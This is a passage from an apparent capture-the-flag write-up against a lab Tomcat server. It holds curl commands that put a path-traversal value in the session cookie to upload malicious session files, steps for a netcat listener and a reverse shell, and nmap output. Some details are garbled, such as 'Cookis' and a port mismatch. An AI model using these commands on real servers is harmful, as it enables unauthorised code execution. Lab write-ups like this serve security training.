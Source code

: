 ```
   - bash /tmp/targetplay.sh
   - (exccute the targetplay.sh)

10. create curlcommand.sh
    - send curl command with the cookie and malicious files.

    bash:
    vim curlcomand.sh
    # !/bin/bash
    curl http://10.10.10.205:8080/upload.jsp -H 'Cookis:JESSIONID=../../../opt/samples/uploads/uploadfile' -F 'image=@uploadfile.session'
    sleep 1
    curl http://10.10.10.205:8080/upload.jsp -H 'Cookis:JESSIONID=../../../opt/samples/uploads/executefile' -F 'image=@executefile.session'


11. setup pyserver

12. setup netcat listener

13. run curlcommand and get the reverse shell
```

---

## Initial：

---

### Recon NMAP

NMAP:
- <font color=red> FINDING </font>
  - Port 222 SSH
  - Port 8080 Apache Tomcat 9.0.27


```bash
$ nmap -sC -p- 10.10.10.205

PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
4554/tcp open  msfrs
8080/tcp open  http-proxy
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: VirusBucket
```

---